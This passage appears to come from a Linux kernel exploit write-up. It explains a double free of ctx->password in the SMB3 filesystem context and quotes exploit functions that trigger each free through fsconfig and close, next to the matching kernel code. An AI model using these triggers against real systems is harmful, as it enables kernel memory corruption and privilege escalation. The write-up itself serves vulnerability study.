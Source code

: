 - This step allocate `ctx->password` which is vulnerable object.

### Step2.2: Free vulnerable object the first time
- Exploit code [exploit.c#L263](./exploit.c#L263):

```c
static inline void trigger_first_free(int fsfd)
{
  syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "max_credits", "19", 0);
}
```

- Kernel code:

```c
static int smb3_fs_context_parse_param(struct fs_context *fc,
				      struct fs_parameter *param)
{
  ...
  switch (opt) {
  ...

  case Opt_max_credits:
		if (result.uint_32 < 20 || result.uint_32 > 60000) {
			cifs_errorf(fc, "%s: Invalid max_credits value\n",
				 __func__);
			goto cifs_parse_mount_err;
		}

  ...
  }
  ...
 cifs_parse_mount_err:
	kfree_sensitive(ctx->password);
	return -EINVAL;
}              
```

### Step2.3: Free vulnerable object the second time
- Exploit code [exploit.c#L268](./exploit.c#L268):

```c
static inline void trigger_second_free(int fsfd)
{
  close(fsfd);
}
```

- Kernel code:

```c
void
smb3_cleanup_fs_context_contents(struct smb3_fs_context *ctx)
{
  ...
	kfree_sensitive(ctx->password);
	ctx->password = NULL;
  ...
}
```
